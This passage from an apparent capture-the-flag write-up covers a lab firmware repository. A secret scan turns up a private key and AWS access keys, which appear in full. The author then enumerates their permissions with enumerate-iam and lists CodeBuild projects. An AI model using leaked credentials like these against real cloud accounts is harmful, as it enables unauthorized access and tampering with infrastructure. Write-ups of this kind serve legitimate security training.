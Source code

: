 ```bash
-----END PRIVATE KEY-----
Commit: aff5a0a10fbafc1bdbf510dacc47f7d499bbc998
Email: root <root@volnaya.htb>
File: debug.h
Line: 1
Repository: https://18.189.24.231/root/volnaya-waterplant-firmware.git
Timestamp: 2025-04-22 09:57:16 +0000
```

Scan identified a private key and set of AWS credentials. 

```bash
git show fd21cc16ea6773c506fe7da5bd9d87e2c32399be
...
+```env
+AWS_ACCESS_KEY_ID=AKIARHJJMXKMTQ2ZUJVO
+AWS_SECRET_ACCESS_KEY=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
+AWS_REGION=us-east-2
```

We can use tools like [enumerate-iam](https://github.com/andresriancho/enumerate-iam) to identify permissions that these credentials has access to. 

```bash
./enumerate-iam.py --access-key AKIARHJJMXKMTQ2ZUJVO --secret-key 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 --region us-east-2
2025-04-25 01:24:23,442 - 2299250 - [INFO] Starting permission enumeration for access-key-id "AKIARHJJMXKMTQ2ZUJVO"
2025-04-25 01:24:25,612 - 2299250 - [INFO] -- Account ARN : arn:aws:iam::084375550617:user/ci-dev
2025-04-25 01:24:25,613 - 2299250 - [INFO] -- Account Id  : 084375550617
2025-04-25 01:24:25,613 - 2299250 - [INFO] -- Account Path: user/ci-dev
2025-04-25 01:24:26,260 - 2299250 - [INFO] Attempting common-service describe / list brute force.
2025-04-25 01:24:26,394 - 2299250 - [WARNING] Client is configured with the deprecated endpoint: us-east-2
2025-04-25 01:24:39,253 - 2299250 - [INFO] -- dynamodb.describe_endpoints() worked!
2025-04-25 01:24:42,432 - 2299250 - [ERROR] Remove codedeploy.batch_get_deployment_targets action
2025-04-25 01:24:42,433 - 2299250 - [ERROR] Remove codedeploy.get_deployment_target action
2025-04-25 01:24:44,442 - 2299250 - [ERROR] Remove codedeploy.list_deployment_targets action
2025-04-25 01:24:46,246 - 2299250 - [INFO] -- codebuild.list_projects() worked!
...
```

Looks like we've `CodeBuild` list projects permission.

```bash
aws codebuild list-projects
{
    "projects": [
        "volnaya-firmware-build"
    ]
}
```

There is a project to build the firmware. Looking at `buildspec.yml` we find how the firmware code is deployed to the device. 
